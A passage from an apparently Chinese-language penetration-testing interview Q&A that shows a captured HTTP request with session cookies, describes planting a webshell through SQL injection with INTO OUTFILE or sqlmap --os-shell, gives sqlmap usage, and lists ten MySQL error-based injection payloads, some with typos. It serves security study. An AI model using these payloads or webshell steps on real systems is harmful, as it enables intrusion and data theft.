       <pre>`get /ecskins/demo.jsp?uid=2016031900&amp;keyword="hello world"
    HTTP/1.1Host:***.com:82User-Agent:Mozilla/
    5.0 Firefox/40Accept:text/css,/;q=0.1
    Accept-Language:zh-CN;zh;q=0.8;en-US;q=0.5,en;q=0.3
    Referer:http://*******.com/eciop/orderForCC/
    cgtListForCC.htm?zone=11370601&amp;v=145902
    Cookie:myguid1234567890=1349db5fe50c372c3d995709f54c273d;
    uniqueserid=session_OGRMIFIYJHAH5_HZRQOZAMHJ;
    st_uid=N90PLYHLZGJXI-NX01VPUF46W;
    status=True
    Connection:keep-alive
    `</pre>

    有写入权限的，构造联合查询语句使用using INTO OUTFILE，可以将查询的输出重定向到系统的文件中，这样去写入 WebShell 使用 sqlmap –os-shell 原理和上面一种相同，来直接获得一个 Shell，这样效率更高 通过构造联合查询语句得到网站管理员的账户和密码，然后扫后台登录后台，再在后台通过改包上传等方法上传 Shell

## 38、给你一个网站你是如何来渗透测试的?在获取书面授权的前提下。

## 39、sqlmap，怎么对一个注入点注入？

    1）如果是get型号，直接，sqlmap -u "诸如点网址".

    2) 如果是post型诸如点，可以sqlmap -u "注入点网址" --data="post的参数"

    3）如果是cookie，X-Forwarded-For等，可以访问的时候，用burpsuite抓包，注入处用号替换，放到文件里，然后sqlmap -r "文件地址"

## 40、nmap，扫描的几种方式

## 41、sql注入的几种类型？

    1）报错注入

    2）bool型注入

    3）延时注入

    4）宽字节注入

## 42、报错注入的函数有哪些？10个

      <pre>`1）and extractvalue(1, concat(0x7e,(select @@version),0x7e))】】】
    2）通过floor报错 向下取整
    3）+and updatexml(1, concat(0x7e,(secect @@version),0x7e),1)
    4）.geometrycollection()select from test where id=1 and geometrycollection((select from(selectfrom(select user())a)b));
    5）.multipoint()select from test where id=1 and multipoint((select from(select from(select user())a)b));
    6）.polygon()select from test where id=1 and polygon((select from(select from(select user())a)b));
    7）.multipolygon()select from test where id=1 and multipolygon((select from(select from(select user())a)b));
    8）.linestring()select from test where id=1 and linestring((select from(select from(select user())a)b));
    9）.multilinestring()select from test where id=1 and multilinestring((select from(select from(select user())a)b));
    10）.exp()select from test where id=1 and exp(~(select * from(select user())a));
    `</pre>
